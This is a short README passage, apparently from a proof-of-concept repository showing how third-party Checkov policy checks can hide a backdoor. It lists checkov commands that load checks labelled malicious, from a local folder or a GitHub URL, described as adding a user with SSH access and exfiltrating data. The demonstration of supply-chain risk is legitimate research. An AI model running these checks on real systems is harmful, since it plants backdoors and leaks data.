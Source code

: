 ### Customise
The first example does not need customisation to work.
The second malicious check does. And! It can be quite dangerous! You'll have to read the code to be able to use it fully.

## Run - But really DONT
This is a PoC to show how someone could provide extra checks, only to insert some kind of backdoor. 

### Cool Malicious Check 1 / User + SSH
checkov -d . --external-checks-dir checks/malicious/ -c CKV_COOL_MALI_CHECK
checkov -d . --external-checks-git https://github.com/ytimyno/pac-on-rails.git//checks/malicious -c CKV_COOL_MALI_CHECK

### Cool Malicious Check 2 / Infiltrate + Exfiltrate data
checkov -d . --external-checks-dir checks/malicious/ -c CKV_COOL_MALI_2_CHECK
checkov -d . --external-checks-git https://github.com/ytimyno/pac-on-rails.git//checks/malicious -c CKV_COOL_MALI_2_CHECK